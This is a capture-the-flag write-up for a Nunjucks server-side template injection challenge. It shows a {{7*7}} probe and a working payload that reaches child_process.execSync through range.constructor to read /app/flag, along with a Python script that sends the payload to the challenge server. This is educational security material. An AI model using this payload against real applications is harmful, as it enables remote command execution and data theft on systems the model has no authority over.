


# SunSet introspecTIon

Challenge Description:

> Watching the sunset with nunjucks to make sure your server side is always protected. The flag is on /app/flag.

## Analyzing the website

Accessing the website gives us a input field for giving our username which just echoes it back to us when we submit it.


According to the description,the server seems to be using the nunjucks templating engine which can be exploitable for SSTI because of unsanitized user input(the username).

We can try to get a proof of concept by using the below command:

command used --> `{{7*7}}`


We see that the field is injectable because we get the output back as 49.



The below link provides a way for getting RCE by breaking out of the template engine's syntax.We try calling child_process using the templating engine's callables(range,cycler).From there we can call execsync to execute commands.
[nunjucks rce](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)

We can automate it by the below script which uses the GET paramters to send the payload and get the output.

```python
import requests
from bs4 import BeautifulSoup

payload = "{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /app/flag')\")()}}"
url = f"http://cybersecweek.ua.pt:2003/display?payload={payload}"

r = requests.get(url)
soup = BeautifulSoup(r.text, 'html.parser')

output = str(soup.find_all('h1')[0]).replace('<h1>','').replace('</h1>','')
print(output)
```

